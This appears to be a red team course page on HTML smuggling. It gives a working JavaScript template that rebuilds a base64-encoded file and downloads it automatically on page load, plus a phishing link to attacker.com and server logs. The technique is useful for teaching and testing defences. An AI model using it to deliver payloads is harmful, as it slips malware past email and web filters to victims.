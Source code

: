 HTML smuggling is a technique that uses JavaScript to hide files from content filters.  If you send a phishing email with a download link, the HTML may look something like:
```
<a href="http://attacker.com/file.doc">Download Me</a>
```

Email and web scanners are capable of parsing these out and taking some action.  They may be removed entirely, or the URL content fetched and scanned by an AV sandbox.  HTML smuggling allows us to get around this by embedding the payload into the HTML source code and using JavaScript to construct URLs by the browser at runtime.

This is a simple boilerplate template based on work by [Stan Hegt](https://twitter.com/stanhacked).
```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
  

As this goes over the wire, a scanner will only see HTML and JavaScript.  There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created with:
```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```
  

When you visit this page, the browser will automatically reconstruct and download the file without any interaction from the user.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/initial-compromise/html-smuggling/test_txt.png)

  

  The Python HTTP server is a nice quick way to spin up a web server for testing.  
  
```
attacker@ubuntu ~> python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.17.164 - - [09/Aug/2022 17:23:49] "GET /smuggle.html HTTP/1.1" 200 -
```
  

Files downloaded this way still retain the MOTW and are also subject to the typical browser restrictions (e.g warnings when trying to download EXE's).
```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```